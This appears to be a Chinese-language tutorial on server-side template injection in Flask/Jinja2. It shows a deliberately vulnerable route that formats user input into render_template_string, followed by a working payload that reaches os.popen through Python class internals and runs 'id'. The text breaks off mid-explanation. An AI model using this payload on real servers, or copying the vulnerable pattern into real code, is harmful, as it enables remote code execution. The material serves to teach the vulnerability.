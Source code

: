 # 环境搭建
- Windows 10
- python3
- flask
- jinja2

# 测试代码
```
from flask import Flask, render_template, render_template_string

app = Flask(__name__)  
 
@app.route("/user/<name>")
def user(name):
    template = '''
    <h3>%s</h3>
    '''%(name)
    return render_template_string(template)

if __name__ == "__main__":  
    app.run() 

```
就是把url user后面的name输出出来
> 注意这里面如果使用render_template带入html模板的话就不会产生这个问题，将html模板通过`{%% extends "layout.html" %%}`引入到python中也会出现这个问题

# 常见payload解析
常见的payload的思路都常常是利用python内置的变量属性等出发·通过调用一些隐藏的属性（方法）从而实现代码输入

```
# 命令执行
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
	{% endif %}
{% endfor %}
```
- 首先这个使用了一个循环和if的jinja2的结构找到了一个内置的类catch_warnings，
- 然后通过一个特殊的属性`__globals__`找到了当前类下的所有变量
`__globals__` *这个属性是python所有函数都包含的一个属性，调用这个属性会返回python*
